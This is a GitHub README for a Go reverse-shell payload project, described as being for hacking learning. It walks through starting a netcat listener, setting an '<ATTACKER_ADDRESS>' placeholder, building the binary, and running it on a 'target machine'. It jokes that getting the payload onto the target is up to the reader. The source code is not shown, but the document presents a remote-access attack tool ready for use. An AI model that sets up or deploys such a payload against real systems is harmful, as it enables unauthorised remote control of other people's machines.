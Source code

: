 <h1 align="center">Reverse Shell</h1>

<p align="center">
  <img alt="Github top language" src="https://img.shields.io/github/go-mod/go-version/Axselll/reverse-shell">

  <img alt="Github language count" src="https://img.shields.io/github/languages/count/Axselll/reverse-shell">

  <img alt="Repository size" src="https://img.shields.io/github/repo-size/Axselll/reverse-shell">

  <!-- <img alt="Github issues" src="https://img.shields.io/github/issues/{{YOUR_GITHUB_USERNAME}}/go-rest?color=56BEB8" /> -->

  <!-- <img alt="Github forks" src="https://img.shields.io/github/forks/{{YOUR_GITHUB_USERNAME}}/go-rest?color=56BEB8" /> -->

  <!-- <img alt="Github stars" src="https://img.shields.io/github/stars/{{YOUR_GITHUB_USERNAME}}/go-rest?color=56BEB8" /> -->
</p>

<!-- Status -->

<h4 align="center"> 
	🚧  Reverse Shell 🚀  Is Under construction...  🚧
</h4> 

<hr>

<p align="center">
  <a href="#dart-about">About</a> &#xa0; | &#xa0; 
  <a href="#sparkles-features">Features</a> &#xa0; | &#xa0;
  <a href="#rocket-technologies">Technologies</a> &#xa0; | &#xa0;
  <a href="#white_check_mark-requirements">Requirements</a> &#xa0; | &#xa0;
  <a href="#checkered_flag-starting">Starting</a> &#xa0; | &#xa0;
  <a href="#memo-tested-on-os">Test</a> &#xa0; | &#xa0;
  <a href="https://github.com/Axselll" target="_blank">Author</a>
</p>

<br>

## :dart: About ##

This project is for hacking learning purposes. Have not tested it on windows machine because i'm lazy

## :sparkles: Features ##

:heavy_check_mark: Custom Reverse Shell Payload


## :rocket: Technologies ##

The following tools were used in this project:

- [Go](https://go.dev/)


## :white_check_mark: Requirements ##

Before starting :checkered_flag:, you need to have [Git](https://git-scm.com), [Go](https://go.dev/), [Netcat](https://sectools.org/tool/netcat/) installed & some basic networking.

## :checkered_flag: Starting ##

### Start Netcat listener ###
```bash
nc -nlvp 8888
```

### Clone this project ####
```bash
git clone https://github.com/Axselll/reverse-shell
```

### Access ###
```bash
cd reverse-shell
```

### Install dependencies ###
```bash
go get
```

### Change <ATTACKER_ADDRESS> to your receiving netcat address ###
```bash
srcAddress := "<ATTACKER_ADDRESS>"
```

### Build ###
```bash
go build
```
### Execute the payload from your target machine, how? good luck finding that out ###


## :memo: Tested on OS ##
- [x] Linux
- []  Windows
- [] MacOS/ARM <- Just forget about this, i never have a mac

<br>
Made with :heart: by <a href="https://github.com/{{Axselll}}" target="_blank">Axselll</a>

&#xa0;

<a href="#top">Back to top</a>